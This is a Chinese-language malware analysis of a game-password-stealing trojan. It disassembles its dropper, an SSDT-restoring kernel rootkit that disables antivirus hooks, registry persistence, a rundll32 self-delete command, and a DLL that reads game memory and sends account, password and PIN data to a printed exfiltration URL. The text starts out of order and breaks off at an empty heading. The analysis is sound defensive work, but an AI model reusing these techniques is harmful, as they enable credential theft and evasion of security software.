戳——TimeDateStamp 属性，显示创建于 2004 年 1 月 24 日 23:39:42，这可能是 Upack 加壳后修改了的时间戳，无法再还原回去了。02_unpacked.exe 没有导出表，包含 3 段 BINARY 类型的资源，大小分别为 0x9BF0、0xC00 和 0xE00，再用 language2000 扫描，显示该木马在 VC6.0 下编译连接。

在 OllyDBG 下加载脱壳后的 02.exe，反汇编出相当数量的汇编代码。限于篇幅，这里只按照执行流程给出关键部分的分析和注释。从程序入口点开始调试，木马首先作了一些检测工作，检测执行程序时是否带有参数，如果没有，则开始正常的流程。


图1

对这个病毒，不同的杀毒软件有不同的命名方法，超级巡警叫它 Trojan-GameThief.Win32.OnLineGames.synr，Rising 说是 Trojan.PSW.Win32.WoWar.avp。不管它叫什么，我们准备按照病毒文件的顺序来逐个分析其功能和作用。文中不严格区分“病毒”和“木马”的概念，因为目前关于它们的界限非常模糊，如果涉及数字表示的内存地址，不加说明的话一般为十六进制表示。

### 主体文件 02.exe

用超级巡警的病毒分析工具 FFI 检测 02.exe，发现加了 Upack V0.37→Dwing 的壳，脱壳后命名为 02_unpacked.exe。加壳程序大约有 19.8KB，一脱壳马上变到 116KB，看来这个木马内部的文章应该不少。我们查看脱壳后程序 PE 头的时间戳——

病毒首先用 GetSystemDirectory 获得系统路径，在 C:\Windows\System32 目录下创建一个文件 Update.dat，并向其中写入了 8 字节的数据 0xE2BF51F0 和 0x01C96C5C，然后利用系统服务管理的 API，关闭了系统中的几个服务。根据汇编代码还原出来的 C 伪码如下：

```c
scm = OpenSCManager(0, 0, 0xF003F);
service = OpenService(scm, "msfpis64", SERVICE_ALL_ACCESS|DELETE);
if (service != NULL) {
    ControlService(service, 1, NULL);
    DeleteService(service);
}
service = OpenService(scm, "msp2p32", SERVICE_ALL_ACCESS|DELETE);
if (service != NULL) {
    ControlService(service, 1, NULL);
    DeleteService(service);
}
CloseServiceHandle(scm);
```

这里关闭了系统中的名为 **msfpis64** 和 **msp2p32** 的服务。至于这两个服务是干什么用的，我们不得而知，可能是病毒先前版本所采用的服务，也可能是其他程序的服务，但怎么看这两个服务的名字都不像是“好人”。在后来的代码中，病毒用同样的方法删除了系统中的 **HBKernel** 服务，卸载了其相关的设备文件 `\\.\s\HBKernel`，还用 `DeleteFile` 删除了 `C:\Windows\System32\drivers` 目录下的 `HBKernel.sys` 文件，猜测这个文件和服务似乎是配对的。随后，`FindWindow` 在系统中查找名为 “.HBInject” 的窗口，找到后向其发送消息 `SendMessage(handle, 0x10, NULL, NULL)`，这里的消息代码是 `0x10`，关闭 HBInject 的窗口。

如果我们将上述看做是病毒的清理操作，那下面恶意行动正式登场，进入了感染阶段。病毒首先向磁盘上写入文件，这个过程在 `00401140` 处的子程序里面，写入的文件路径是 `C:\Windows\System32\drivers\HBKernel.sys`。待写入的内容也是早已嵌入在病毒程序内部，想想刚才它 116KB 的身材，或许就是包含了这些额外的文件所致。病毒使用的是 PE 资源文件的方法，将其他文件嵌入到自身。所以写入之前，要将这些数据从资源文件中提取出来，其中有如下的片段。

```asm
004016E6  push 004031B0 ; ASCII "BINARY"
...
004016EF  push 81
004016F4  xor ebx, ebx
004016F6  push edi
00401799  call [<&KERNEL32.FindResourceA>]
; kernel32.FindResourceA
0040179F  mov esi, eax
004017A1  test esi, esi
004017A3  je 0040198E
...
004017AC  call [<&KERNEL32.SizeofResource>]
; kernel32.SizeofResource
...
004017B6  call [<&KERNEL32.LoadResource>]
; kernel32.LoadResource
```

调用 `FindResourceA` 时有下面的堆栈快照，可见是在 `02.exe` 的模块中查找资源名为 `0x81`、二进制类型的资源。经过 `SizeofResource` 后，`eax` 值为 `0x9BF0`，即资源文件大小为 `39920` 字节。

```text
FindResourceA
0012F600 00400000 hModule = 00400000 (02_unpac)
0012F604 00000081 lpResourceName = 81
0012F608 004031B0 lpResourceType = "BINARY"
```

找到文件之后，自然是写入文件到磁盘了。接着便是调用 `CreateFileA`、`WriteFile` 和 `CloseHandle`。下面有一个 `WriteFile` 时的堆栈快照，读取 `02_unpac` 中缓冲区内容，向磁盘写入 `39920` 字节的数据，文件名为 `HBKernel.sys`。我们追踪该内存数据，得到图 2 所示截图，可以看到 PE 文件标识的 `MZ` 和相关字样。

```text
WriteFile
0012F724 0000004C hFile = 0000004C
0012F728 00383928 lpBuffer = 00383928
0012F72C 00009BF0 nBytesToWrite = 9BF0 (39920)
0012F730 0012F74C lpBytesWritten = 0012F74C
0012F734 00000000 lpOverlapped = NULL
```


图2

接着是加载服务的操作，病毒打开服务管理器 SCM，准备好参数，创建了一个新的服务 `HBKernel`，并马上启动它，就像下面的代码那样。

```asm
0040126D push edx
0040126E push 0
00401270 push 0
00401272 push 1
00401274 push 10
00401276 push 004031CC ; ASCII "HBKernel Driver"
0040127B push 0040315C ; ASCII "HBKernel"
00401280 push ebx
00401281 call [<&ADVAPI32.CreateServiceA>]
; ADVAPI32.CreateServiceA
...
0040128D mov esi, eax
0040128F test esi, esi
00401291 je short 004012AD
```

```text
00401293  push 0
00401295  push 0
00401297  push esi
00401298  call [<&ADVAPI32.StartServiceA>]
```

在创建服务 CreateService 时，有下面的堆栈数据。可看出 HBKernel 属于系统内核服务，随系统启动，服务函数路径是刚才写入的 `C:\WINDOWS\system32\drivers\HBKernel.sys`，并且该驱动还属于 Boot Bus Extender 组，属于典型的 Rootkit 了。图3是堆栈数据和服务加载效果截图。

```text
CreateServiceA
hManager = 001545D0
ServiceName = "HBKernel"
DisplayName = "HBKernel Driver"
DesiredAccess = SERVICE_START
ServiceType = SERVICE_KERNEL_DRIVER
StartType = SERVICE_BOOT_START
ErrorControl = SERVICE_ERROR_IGNORE
BinaryPathName = "C:\WINDOWS\system32\drivers\HBKernel.sys"
LoadOrderGroup = "Boot Bus Extender"
...
```


02_unpacked.exe 随后创建了一个和该驱动关联的设备文件 `\\.\slHBKernel`，在 00401AF6 处转入一个子程序，利用驱动实现了某些功能。这里先给出创建设备文件时的堆栈信息，其功能在后面分析。

```text
FileName = "\\.\slHBKernel"
Access = GENERIC_READ|GENERIC_WRITE
ShareMode = 0
pSecurity = NULL
Mode = OPEN_EXISTING
```

```text
Attributes = 0
lpTemplateFile = NULL
```

接下来写入的文件是 `C:\Windows\System32\HBmhly.dll`。这次不是以资源形式存放，而是直接嵌在 02_unpacked.exe 模块内部。只要直接读取内存空间即可写入。对应的堆栈快照和写入缓冲区截图如图4所示，HBmhly.dll 文件大小约 19456 字节。

```text
WriteFile
hFile = 00000050
Buffer = 02_unpac.00405390
nBytesToWrite = 4C00 (19456)
pBytesWritten = 0012F628
pOverlapped = NULL
```


病毒开始第3次向磁盘写入文件，这次是 `C:\Windows\System32\explore.exe`。写入方法与前面大致相同，仍然是从 02.exe 的模块中读取资源文件，再写入预定目录。这里给出 FindResourceA 时的堆栈快照。explore.exe 的资源名为 `0x84`，类型为 `BINARY`。

```text
FindResourceA
hModule = 00400000 (02_unpac)
ResourceName = 84
ResourceType = "BINARY"
```

随后还是 WriteFile 写入文件，调用堆栈快照如下。回到地址所指的数据，可以得到图5所示结果。根据特征，也是一个 PE 可执行文件。

```text
WriteFile
hFile = 00000050
Buffer = 02_unpac.0040ECC0
nBytesToWrite = E00 (3584)
pBytesWritten = 0012F85C
pOverlapped = NULL
```

`explore.exe` 作为可执行文件写入磁盘，最终……目的还是要使它运行起来。果然，后面的代码用 CreateProcessA 运行了 explore.exe，下面是堆栈快照。pStartupInfo 指向了一个 STARTUPINFO 结构，其中的 wShowWindow 字段指出了窗口的显示样式为不可见；lpTitle 字段指明了 explore.exe 程序的窗口名。C:\NEW\02_unpacked.exe，explore.exe 作为 02_unpacked.exe 的子进程而存在。如图6所示。

```text
CreateProcessA
0012F838 00000000 |ModuleFileName = NULL
0012F83C 0012F9B0 |CommandLine = "C:\WINDOWS\system32\explore.exe"
0012F840 00000000 |pProcessSecurity = NULL
0012F844 00000000 |pThreadSecurity = NULL
0012F848 00000000 |InheritHandles = FALSE
0012F84C 00000020 |CreationFlags = NORMAL_PRIORITY_CLASS
0012F850 00000000 |pEnvironment = NULL
0012F854 00000000 |CurrentDir = NULL
0012F858 0012FAB8 |pStartupInfo = 0012FAB8
0012F85C 0012F888 |pProcessInfo = 0012F888
```


病毒主体接着修改注册表。修改的地方有两处，分别是：

- 在 `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` 子键下，增加了一个 REG_SZ 型的项目 `HBService`，值为 `C:\WINDOWS\system32\explore.exe`。
- 在 `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows` 子键下，`AppInit_DLLs` 键值增加了 `"aaa.dll,HBmhly.dll"` 一项。

很明显，病毒程序的意图是想让病毒文件能够自动运行，修改后的效果如图7所示。病毒操作注册表没有使用常用的注册表操作函数，如 RegOpenKeyExA 等，而是使用了由 ntdll.dll 导出的 NtCreateKey、NtSetValueKey 和 NtClose 等几个。至此，病毒主体 02.exe 的功能已经基本接近尾声。

尾声，还剩下最后一个步骤。刚才已经 load 了两个资源段，分别是 HBKernel.sys 和 explore.exe，还剩下最后一个。病毒最后写入了一个文件 SelfDel.dll。FindResource 和 WriteFile 的堆栈快照如下。这次是名为 0x82 的资源段，向磁盘写入了 3072 字节，正好是 SelfDel.dll 文件的大小。

```text
FindResource
0012F2CC 00400000 hModule = 00400000
0012F2D0 00000082 ResourceName = 82
0012F2D4 004031B0 ResourceType = "BINARY"

WriteFile
0012F2B0 00000050 hFile = 00000050
0012F2B4 0040ECC0 Buffer = 02_unpac.0040ECC0
0012F2B8 00000C00 nBytesToWrite = C00 (3072)
0012F2BC 0012F2D4 lpBytesWritten = 0012F2D4
0012F2C0 00000000 pOverlapped = NULL
```

加载运行 SelfDel.dll 是一件有趣的事情，这里不同于常规的 LoadLibrary 式加载，而是直接用 rundll32.exe 来运行 SelfDel.dll 的导出函数，代码片段如下。

```text
00401655 call [<&KERNEL32.GetModuleFileNameA>]
0040166F push 00403208
; ASCII "rundll32.exe %s,MagicDelete %s"
00401674 push eax
00401675 call [<&USER32.wsprintfA>]
...
00401683 call [<&KERNEL32.GetStartupInfoA>]
...
004016B1 call [<&KERNEL32.CreateProcessA>]
```

最终用 CreateProcessA 运行了一个新的进程，此时有如下的堆栈快照。

```text
0012F2B0 00000000 |ModuleFileName = NULL
0012F2B4 0012F548 |CommandLine = "rundll32.exe C:\WINDOWS\system32\SelfDel.dll, MagicDelete C:\NEW\02_unpacked.exe"
0012F2B8 00000000 |pProcessSecurity = NULL
0012F2BC 00000000 |pThreadSecurity = NULL
0012F2C0 00000000 |InheritHandles = FALSE
0012F2C4 00000020 |CreationFlags = NORMAL_PRIORITY_CLASS
0012F2C8 00000000 |lpEnvironment = NULL
0012F2CC 00000000 |lpCurrentDir = NULL
0012F2D0 0012F2F0 |lpStartupInfo = 0012F2F0
0012F2D4 0012F2E0 |lpProcessInfo = 0012F2E0
```

命令行参数为“rundll32.exe C:\WINDOWS\system32\SelfDel.dll,MagicDelete C:\NEW\02_unpacked.exe”，是以“C:\WINDOWS\system32\SelfDel.dll,MagicDelete C:\NEW\02_unpacked.exe”运行 rundll32.exe，后者会调用 SelfDel.dll 导出的函数 MagicDelete，而 C:\NEW\02_unpacked.exe 又作为该函数的参数。这句调用完成了 02_unpacked.exe 和 SelfDel.dll 的删除任务。看起来似乎比较巧妙，在后面的章节中我们再来分析其中的细节。

之后，02_unpacked.exe 退出了运行，此时磁盘上的病毒主体文件也已经被删除，所以它算是销声匿迹了。但后来还剩下一堆衍生文件：Update.dat、HBKernel.sys、HBmhly.dll、explore.exe 和 SelfDel.dll 等，至于这些衍生文件的具体作用，我们慢慢再来分析。

## 内核驱动 HBKernel.sys

首先还是 PE 检查，未加壳。文件大小有 11KB，属于 Native 子系统，文件创建于 2008 年 9 月 10 日 1:33:44，符合病毒出现的日期。它没有导出表，但是导入了 HAL.dll 和 ntoskrnl.dll 的部分函数。

02_unpacked.exe 在 00401AF6 处用一个 call 指令进入 00401FC0 处的子程序，此时加载的服务 HBKernel 已经启动，病毒利用刚才创建的设备文件 `\\.\slHBKernel` 操作内核对象。00401FC0 的函数有如下的代码片段。

```text
00401FC0  sub  esp, 124
00401FC6  push 104
00401FCB  lea  eax, [esp+24]
......
00401FF0  push edi
00401FF1  push 1
00401FF3  push 0
00401FF5  lea  edx, [esp+2C]
00401FF9  push edx
00401FFA  call [<&KERNEL32.LoadLibraryExA>]
; kernel32.LoadLibraryExA
......
0040200E  push esi
0040200F  push 00403408
```

```text
; ASCII "KeServiceDescriptorTable"
00402014  push edi
00402015  call [<&KERNEL32.GetProcAddress>]
; kernel32.GetProcAddress
......
00402035  mov eax, edi
00402037  call 00401DF0
0040203C  sub esi, edi
0040203E  push esi
0040203F  xor ebp, ebp
00402041  call 00401E40
......
00402059  mov edi, [<&KERNEL32.DeviceIoControl>]
; kernel32.DeviceIoControl
......
00402060  mov edx, [esp+18]
00402064  push 0
00402066  add eax, edx
00402068  mov edx, [esp+13C]
0040206F  mov [esp+24], eax
00402073  lea eax, [esp+30]
00402077  push eax
00402078  push 0
0040207A  push 0
0040207C  push 8
0040207E  lea ecx, [esp+30]
00402082  push ecx
00402083  push 22E007
00402088  push edx
00402089  mov [esp+3C], ebp
0040208D  call edi
......
0040209E  jb short 00402060
......
004020A7  call [<&KERNEL32.FreeLibrary>]
; kernel32.FreeLibrary
......
004020CE  retn 4
```

看到 KeServiceDescriptorTable 这个字符串，十有八九病毒是要对 SSDT 下手。查看调试数据，果然如此。它修改 SSDT 的模式和大部分程序的基本一样：省略的部分里，病毒首先用 NtQueryInformation 获得了 ntkrnlpa.exe 的模块信息，包括其模块名和在核心内存的基址，然后通过 LoadLibraryEx 函数在用户态载入一份 ntkrnlpa.exe 的实例，再直接用 GetProcAddress 函数获取用户态 ntkrnlpa.exe 实例中导出的 KeServiceDescriptorTable 符号地址，减去用户态载入模块的基址获得 KeServiceDescriptorTable 在模块中的 RVA，由此计算出 SSDT 的 RVA，就可以在用户空间找到 SSDT 的位置。SSDT 中是系统各服务函数的地址，但由于用户态导入 **ntkrnlpa.exe**，其导出的系统服务函数在加载 **ntkrnlpa.exe** 的进程空间时已经重定向过，也即加上了 **ntkrnlpa.exe** 的 ImageBase，所以用户态的 SSDT 的各个服务函数的地址应该减去 **ntkrnlpa.exe** 的 ImageBase，就是服务函数的 RVA，再加上核心态 **ntkrnlpa.exe** 的基址，最终得到服务函数在核心态的地址，其计算公式为：`ssdt_list[dwServiceID].address=*pService-ntkrnlpa.ImageBase+dwKernelBase`。

00402037 处和 00402041 处的两个 call 指令，是查找 KiServiceTable 的 RVA 代码，这里不再细说。关键的是 00402060 到 0040209E 的一个循环，反复执行 DeviceIoControl 函数。检测了运行时的数据之后，可以用 C 语言伪码表示如下。

```c
for (int i=0; i<0x11C; i++) {
    DeviceIoControl(hDevice, 0x00000050,
                    0x0022E007,
                    0x0012F740,
                    0x00000008,
                    NULL,
                    NULL,
                    0x0012F750,
                    NULL);
}
```

循环的次数为 0x11C 次，正好对应 SSDT 服务函数的个数。对于 DeviceIoControl 函数的调用，hDevice 指出了设备句柄，这里是刚才打开的 `\\.\slHBKernel` 设备文件。DeviceIoControl 函数向设备发出 0022E007 的 I/O 控制码之后，内核空间的设备驱动程序会用函数来响应。按照 winioctl.h 定义的宏 CTL_CODE 来解码控制码，4 个参数分别如下：

```c
DeviceType = 0x0022;   // FILE_DEVICE_UNKNOWN
Access     = 0x03;     // FILE_READ_ACCESS | FILE_WRITE_ACCESS
Function   = 0xE04;
Method     = 3;        // METHOD_NEITHER
```

一般在 DriverEntry 中以如下的形式定义。在 DispatchRoutine 中会对 0xE04B 消息做出响应。

```c
NTSTATUS DriverEntry() {
    ...
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DispatchRoutine;
    ...
}
```

DispatchRoutine 一定在 HBKernel.sys 这个驱动中。至于 HBKernel 服务做的事情，用图8就可以说明了。这是用 wsyscheck 对安装了瑞星 2008 的系统做内核检查，扫描 SSDT 完整性，有 26 个被 HOOK 过的服务函数地址。而图9是蠕虫军团病毒加载了 HBKernel 服务，修改了 SSDT 后的情况，没有被瑞星 HOOK 过的函数了，而且 HBKernel 还自己 HOOK 了一个服务函数 NtCreateThread。

- 图8：SSDT 检查结果表（瑞星环境，存在多个 HOOK 项）
- 图9：SSDT 检查结果表（加载 HBKernel 后，HOOK 状态变化）

`02_unpacked.exe` 发送消息给底层驱动，HBKernel.sys 就是用 `02_unpacked.exe` 传递的参数将 SSDT 恢复为原始值，卸载杀毒软件等的监控，顺便自己再 HOOK 一个函数。从内核空间的驱动程序来修改内核空间的数据，这比使用用户空间代码（修改 CR0 寄存器标志位）简单安全得多。

## 辅助程序 explore.exe

从文件的命名上来看，显得十分狡猾。explore.exe 和 Windows 资源管理器程序 explorer.exe 仅有一字之差，这让一般用户看起来就像是正常的 Windows 程序而会放松警惕，又可以避开杀毒软件等的重点监视。

用超级巡警的病毒分析工具 FFI 检测 explore.exe，没有加壳，程序约有 3.5KB。查看 PE 头的时候……时间戳——TimeDateStamp属性显示文件创建于2008年9月2日17:44:16，看起来似乎有些时日。再用Language2000扫描，显示该木马在VC6.0下编译链接。再看导入表，导入了ntdll.dll、KERNEL32.dll、USER32.dll和ADVAPI32.dll等4个DLL函数，没有导出表。

在OllyDbg下加载的explore.exe，4KB的身材反汇编出仅不过500行的汇编代码，分析起来相对简单。从程序入口点开始调试，程序首先做了一系列DLL加载和取函数地址的动作。用GetModuleHandleA取得自身模块的句柄，LoadLibraryA加载了HBmhly.dll。

```asm
00401241  push 00402110
; /ProcNameOrOrdinal = "StartServiceEx"
00401246  push dword ptr [ebp-8] ; |hModule
00401249  call <jmp.&KERNEL32.GetProcAddress>
; \GetProcAddress
0040124E  or eax, eax
00401250  je short 00401257
00401252  mov [403000], eax
00401257  push 0040211F
; /ProcNameOrOrdinal = "StopServiceEx"
0040125C  push dword ptr [ebp-8] ; |hModule
0040125F  call <jmp.&KERNEL32.GetProcAddress>
; \GetProcAddress
00401264  or eax, eax
00401266  je short 0040126D
00401268  mov [403004], eax
0040126D  push 0 ; /lParam = NULL
0040126F  push 00401152
; |DlgProc = explore.00401152
00401274  push 0 ; |hOwner = NULL
00401276  push 65 ; |pTemplate = 65
00401278  push dword ptr [ebp-4]
; |hInst = 00400000
0040127B  call <jmp.&USER32.DialogBoxParamA>
; \DialogBoxParamA
```

上面的代码用GetProcAddress获得了StartServiceEx和StopServiceEx两个函数在HBmhly.dll的地址，分别存放在[403000]和[403004]的内存地址空间当中。关键是后面DialogBoxParamA的调用，创建了一个模态对话框。注意其参数“DlgProc = explore.00401152”，指出了对话框的运行例程，将控制转移到了00401152处。

```asm
00401152  push ebp
00401153  mov ebp, esp
00401155  add esp, -2C
```

```asm
00401158  mov eax, [ebp+C]
0040115B  cmp eax, 110 ; Switch (cases 10...13)
00401160  jnz short 004011A2
00401162  push 0
; /Timerproc = NULL, Case: 110
00401164  push 37 ; |Timeout = 55, ms
00401166  push 0 ; |TimerID = 0
00401168  push dword ptr [ebp+8] ; |hWnd
0040116B  call <jmp.&USER32.SetTimer>
; \SetTimer
00401170  mov dword ptr [ebp-2C], 2C
00401177  mov dword ptr [ebp-28], 2
0040117E  mov dword ptr [ebp-24], 0
00401185  lea eax, [ebp-2C]
00401188  push eax ; /pWinplacement
00401189  push dword ptr [ebp+8] ; |hWnd
0040118C  call <jmp.&USER32.SetWindowPlacement>
; \SetWindowPlacement
00401191  cmp dword ptr [403000], 0
00401198  je short 00401205
0040119A  call [403000] ; HBmhly.StartServiceEx
004011A0  jmp short 00401205
004011A2  cmp eax, 113
004011A7  jnz short 004011B6
004011A9  cmp dword ptr [ebp+10], 0
; Case 113 (WM_TIMER)
004011AD  jnz short 00401205
004011AF  call 00401000
004011B4  jmp short 00401205
004011B6  cmp eax, 11
004011B9  jnz short 004011DC
004011BB  cmp dword ptr [403004], 0
; Case 11 (WM_QUERYENDSESSION)
004011C2  je short 004011CA
004011C4  call [403004] ; HBmhly.StopServiceEx
004011CA  push 0 ; /Result = 0
004011CC  push dword ptr [ebp+8] ; |hWnd
004011CF  call <jmp.&USER32.EndDialog>
; \EndDialog
004011D4  xor eax, eax
004011D6  leave
004011D7  retn 10
```

对话框例程是一个函数指针指向的函数，其内部反汇编之后呈现为一个switch-case结构，该结构中有以下3条执行分支。

- 若条件变量值为110，则在0040116B处将本对话框设置为定时例程，窗口名称HBInJect，所属类别#32770。触发间隔为55ms，然后用SetWindowPlacement设置对话框属性，其参数二为一指向WINDOWPLACEMENT结构的指针，该结构中的showCmd参数值为SW_HIDE，窗口不可见。最后，调用保存在[403000]处的StartServiceEx函数地址，结束本次执行，等待定时器下次触发返回特定消息。
- 若定时器启动且返回了WM_TIMER消息，则在转入004011AF处用call指令转入00401000处执行。
- 若定时器启动，且返回了WM_QUERYENDSESSION消息，则调用保存在[403004]处的StopServiceEx函数地址，并用EndDialog关闭本对话框。

这里产生了两个疑问：00401000处执行的是什么代码，StartServiceEx和StopServiceEx究竟做了哪些操作。对于前者，我们可以就近解决，而后者将放到介绍HBmhly.dll的章节再来分析。

00401000处也是一个子程序，汇编代码不超过百行，执行的大部分是注册表操作。用常用的注册表API，RegOpenKeyExA、RegQueryValueExA和RegSetValueExA等修改了一些注册表键值。explore.exe修改的地方有：在HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows下的AppInit_DLLs项中加入了“aaa.dll,HBmhly.dll”的字符串，表示默认加载这两个DLL；在HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run键下添加REG_SZ型项目HBService，值为explore.exe，设置病毒文件为自启动。

至此，关于explore.exe的分析告一段落，因为它不到4KB的身形，确实不能勉强干太多的活计；但它进行的这几步操作的后果却也不小觑。总结起来，它的目的就是加载、修改注册表键值，而且把其设置为隐藏、定时触发的例程后，威力和隐蔽性更是大大增加了。从某种意义上说，explore.exe是蝗虫军团病毒的守护程序，它在保证其他病毒程序的正常运行。

## 下载器HBmhly.dll

02_unpacked.exe写入HBmhly.dll到路径C:\WINDOWS\system32，再由explore.exe从00401230处调用LoadLibrary加载这个动态链接库，并用定时例程，根据消息类型的不同调用其中的StartServiceEx和StopServiceEx函数。

先做PE扫描，无壳，文件创建于2008年9月10日1:32:42，导出了StartServiceEx、ServiceRouteEx和StopServiceEx等3个函数，一看就知道有装载和卸载钩子的一对。导入表中有KERNEL32.dll、USER32.dll、ADVAPI32.dll和SHLWAPI.dll中导入的API，FFI还显示该DLL由Microsoft Visual C++ 7.0 DLL Method 3链接生成。

StartServiceEx函数有如下的代码。

```asm
10001E28  push  ebp
10001E29  mov   ebp, esp
10001E2B  add   esp, -1C
10001E2E  push  0                    ; ThreadID = 0
10001E30  push  dword ptr [10005B74] ; hModule = NULL
10001E36  push  ServiceRouteEx       ; hookproc = HBmhly.ServiceRouteEx
10001E3B  push  7                    ; HookType = WH_MOUSE
10001E3D  call  <jmp.&USER32.SetWindowsHookExA>
10001E42  mov   [10003000], eax
10001E47  leave
10001E48  retn
```

这里调用了SetWindowsHookExA函数，注意第4个参数dwThreadId值为NULL，这是一个全局钩子。钩子例程是ServiceRouteEx，钩子监控的消息类型为WH_MOUSE，后来在执行中，还HOOK了WH_JOURNALRECORD型的消息，以获得鼠标、键盘动作消息。StartServiceEx如此，那StopServiceEx自然是调用UnhookWindowsHookEx卸载钩子了。

ServiceRouteEx函数里是对CallNextHookEx调用，将钩子消息的处理传递到下一个钩子例程。不过在传递之前，HBmhly.dll仍然要做一些自己的处理。其实这个自行的处理过程并不是等到加了钩子时才开始，在explore.exe加载HBmhly.dll时，几乎同样的流程就开始了。

在explore.exe加载HBmhly.dll时有一个初始的判断流程，应该是写在DLL设计的DllMain函数中，根据反汇编的代码，还原出如下的伪代码片段。

```c
GetModuleFileNameA(hModule, buf, 0x104);
if (lstrcmp(buf, "my.exe") == 0)
{
    CreateThread(NULL, 0, HBmhly.10001306, NULL, 0, lpThreadid);
}
```

hModule是由外界传入的，加载DLL的EXE文件的模块句柄，这段代码是比较是否是由my.exe加载了HBmhly.dll，是则创建一个新的线程，线程函数地址HBmhly.10001306，若否则DllMain结束，直接转入ServiceRouteEx的处理流程。

我们先来看ServiceRouteEx的流程，它在系统中查找特定程序的窗口，其中有下面的代码。

```asm
100011C7 push eax
; /pProcessID
100011C8 push dword ptr [ebp+8]
; |hWnd
100011CB call <jmp.&USER32.GetWindowThreadProcessId>
100011D0 call <jmp.&KERNEL32.GetCurrentProcess>
100011D5 cmp eax, [ebp-104]
100011DB jnz short 1000122D
100011DD push 100
100011E2 lea eax, [ebp-100]
100011E8 push eax
100011E9 push dword ptr [ebp+8]
100011EC call <jmp.&USER32.GetWindowTextA>
100011F1 push 10004904
100011F6 lea eax, [ebp-100]
100011FC push eax
100011FD call <jmp.&KERNEL32.lstrcmpiA>
```

上面的代码由一个枚举所有进程的循环驱动，每一次由消息钩子触发的ServiceRouteEx都会首先调用上面的循环代码，在系统中查找名为“梦幻西游online”的窗口。经过调查，前面的my.exe正是“梦幻西游online”的主程序，病毒的意图就是找到该游戏的进程。找到之后，控制流程转移到100012A0处。

```asm
100012A0 push eax
; /pThreadId
100012A1 push 0
; |CreationFlags = 0
100012A3 push 0
; |pThreadParm = NULL
100012A5 push 1000192B
; |ThreadFunction = HBmhly.1000192B
100012AA push 0
; |StackSize = 0
100012AC push 0
; |pSecurity = NULL
100012AE call <jmp.&KERNEL32.CreateThread>
100012B3 push eax
; /hObject
100012B4 call <jmp.&KERNEL32.CloseHandle>
100012B9 push 0
; /Timerproc = NULL
100012BB push 927C0
; |Timeout = 600000 ms
100012C0 push 1
; |TimerID = 1
100012C2 push dword ptr [ebp+8]
100012C5 call <jmp.&USER32.SetTimer>
```

这里创建了一个线程，例程地址在HBmhly.1000192B。而且随后还将当前例程设置了定时器，触发间隔为10分钟。我们来看HBmhly.1000192B处的代码，它最终和DllMain函数里创建的线程HBmhly.10001306处的代码走到了一个地方。简单归结起来，就是读取用户信息，并向特定URL传送数据两项。

读取用户信息是由下面的两个函数实现的。

```asm
10001896 call <jmp.&KERNEL32.GetCurrentProcess>
1000189B mov [ebp-10], eax
1000189E cmp dword ptr [ebp-C], 0
100018A2 je short 1000191D
100018A6 lea eax, [ebp-4]
100018A9 push eax
; /pBytesRead
100018AA push 10000
; |BytesToRead = 10000
100018AF push dword ptr [ebp-C]
; |Buffer
100018B2 push dword ptr [ebp-8]
; |pBaseAddress
100018B5 push dword ptr [ebp-10]
; |hProcess
100018B8 call <jmp.&KERNEL32.ReadProcessMemory>
```

GetCurrentProcess当然得到了my.exe的句柄，也就是“梦幻西游online”游戏主程序的句柄。

## 破解奥秘 SECRET OF CRACK

（栏目编辑/icefire）

随后在进程地址空间中读取了65536字节的数据，并对数据作了分析。分析的例程在1000196A和100024E0处的函数中，前者是在读取的数据缓冲区中定位几个特定的常量，如0xF74EFE23和0xAF1A1484，再在附近搜索数据。我猜这是由特定常量指出的有用信息的位置，属于暴力搜索的方法。而后者的函数体很长，有近1000行汇编代码，而且几乎全是mov、ror、or或and等赋值、位操作指令，我猜这是破解加密信息的步骤。

信息初步加工之后，开始进行深度封装，用到最多的函数是wsprintf，将初加工信息封装到特定的数据格式中。在初加工阶段，我们不知道其读取的是哪些信息，但在深度封装阶段，一切都得以揭晓。随后在调试中发现了“将军”、“密宝”等字样，对应游戏的将军令或者密宝卡信息，信息封装的最后格式是“?server=%s&gameid=%s&pass=%s&pin=%s&wupin=%s&role=%s&equ=现金:%u|存银:%u&other=build:%s %s&verify=%s&hostname=%s”，输出控制字符的部分用初加工的信息来填充。

从这里我们可以看到，它盗取的有游戏的服务器、账号、密码、物品、角色、现金等信息，这些都是网游中的虚拟身份或财产。看到这里，经过上面的分析，HBmhly.dll在盗取梦幻西游online游戏信息的行为是确实成立了。

下面是网络交互阶段。要将得到的信息传送出去，先要用wsprintf封装出URL地址。前面的网址部分是http://www.6161h1.cn/mdb5postasp.asp，再连接上刚才封装的报文，得到最终的URL，调用API完成交互任务。

```asm
10001DAA  push 0
10001DAC  push 0
10001DAE  push 0
10001DB0  push 0
10001DB2  push dword ptr [ebp+8]
10001DB5  call <jmp.&WININET.InternetOpenA>
10001DBA  mov [ebp-4], eax
10001DBD  cmp dword ptr [ebp-4], 0
10001DC1  je short 10001DF9
10001DC3  push 0
10001DC5  push 40000000
10001DCA  push 0
10001DCC  push 0
10001DCE  push dword ptr [ebp+C]
10001DD1  push dword ptr [ebp-4]
10001DD4  call <jmp.&WININET.InternetOpenUrlA>
```

最终发送到远程站点的URL是“http://www.6161h1.cn/mdb5postasp.asp?server=%s&gameid=%s&pass=%s&pin=%s&wupin=%s&role=%s&equ=现金:%u 存银:%u&other=build:%s %s&verify=%s&hostname=%s”，游戏玩家的个人信息就这样被泄露了。搜查了一些http://www.6161h1.cn这个域名的资料，其IP不是固定的，目前已经不可访问。病毒爆发当时，连接到这个URL，不仅传送了用户信息，还会自动下载更多的木马程序，除了游戏的盗号木马，还有更厉害的病毒等等，导致更多的信息泄露，甚至系统当机。怪不得将此病毒命名为蝗虫军团，原来正好描述了害虫倾巢袭来的那股嚣张之势。

HBmhly.dll是盗号木马已经确凿无疑，在实现上确有巧妙之处。一在于其加载时就看准游戏的主程序下手，二是其设置定时器查询程序窗口的那一段。该木马将盗取信息和发送信息的过程用线程来实现，记得HBKernel.sys已经HOOK了NtCreateThread函数，这样恶意创建线程也可以得到内核Rootkit的包庇，既不会干扰到当前查找目标进程的操作，又让盗窃行为变得悄无声息。

## 自删除程序 SelfDel.dll

